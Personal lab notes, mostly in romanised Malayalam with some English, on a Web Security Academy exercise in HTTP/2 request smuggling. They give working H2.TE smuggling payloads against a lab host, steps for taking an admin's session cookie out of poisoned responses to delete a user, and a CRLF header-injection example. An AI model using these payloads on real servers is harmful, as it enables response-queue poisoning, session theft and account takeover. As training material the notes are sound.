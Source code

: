            Lab-12(Response queue poisoning via H2.TE request smuggling)
-->aadyam lab open chyuka enit athinte GET / repeater il iduka.
-->repeater il inspectoril poi http/2 aakuka.Repeater il(mukalil) poi mate ALPN tick iduka
-->GET ennath POST aakuka.enit enthengilum smuggle chyan patumon nokuka :

                        POST / HTTP/2
						Host: 0a7d00a7039eee2ec01e5a3500c600ed.web-security-academy.net
						Transfer-Encoding: chunked
						
						0
						
						SMUsdlfj
						
-->namuk 404 NOT FOUND kitunund.so smuggling nadakunund
-->ini namuk oru complete request smuggle chyam so aa request inum response backend tharum.enitaa reaponse queue chyam
-->==namal oru smuggled request teminate chyumbol rand empty line idanam ennale aa request complete aaku==
-->ini onukoodi chyanam.athayath namal ayakuna request inte response um matu users inte response um differentiate chyan fake path iduka randilum.apol namuk manasilkaum namude respones um matu oru user inte response um.namude aanengil epozhum 404 varum ok
-->final payload :

                POST /x HTTP/2
				Host: 0a7d00a7039eee2ec01e5a3500c600ed.web-security-academy.net
				Transfer-Encoding: chunked
				
				0
				
				GET /x HTTP/1.1
				Host: 0a7d00a7039eee2ec01e5a3500c600ed.web-security-academy.net
				

-->ini ith send chythondirikuka.apol ethengilum  oru user inte response kitum.ivide adminte response kitum apol 302 status code kanam
-->so adminte session cookie kitum ath copy chyuka.enit browser il cookie il change chyuka. angane namuk carlos ine delete chyam ok

==============================================================

### #4 Request smuggling via CRLF injection :
-->CRLF injection ennal namude `\r\n`  vech puthiya line aaki chyuna exploitation aan
-->chela samayam server `\r\n` varunath thadayum pakshe ottak `\n` varunath sanitize chyanamenil so namal ath nokanam
-->so ee `\n` oke itt namuk transfer-encoding polula prhitibitted headers(HTTP/2 il ith prohibited aan) use chyth test chyth nokam
-->eg : `Foo: bar\nTransfer-Encoding: chunked`
-->This discrepancy doesn't exist with the handling of a full CRLF (`\r\n`) sequence because all HTTP/1 servers agree that this terminates the header.athayath `\r\n`  itt test chyth nokenda karyamila karanam server ith ittal new line aayit thane aan kanunath so `\n`  ittayirikum athikam naaml test chyth nokuka
-->pakshe HTTP/2 inte karyam varumbol ath binary based format aan.so HTTP/1.1 pole oro headerum kazhiyumbol `\r\n`  ennum undakila.This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split -> `foo`    `bar\r\nTransfer-Encoding: chunked`   .ith HTTP/2  aayathkond header name um value um vere aayitan undavuka athukondan ingane eg vechath
-->==This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the `\r\n` will once again be interpreted as a header delimiter==. As a result, an HTTP/1 back-end server would see two distinct headers:
                          Foo: bar 
                          Transfer-Encoding: chunked
                          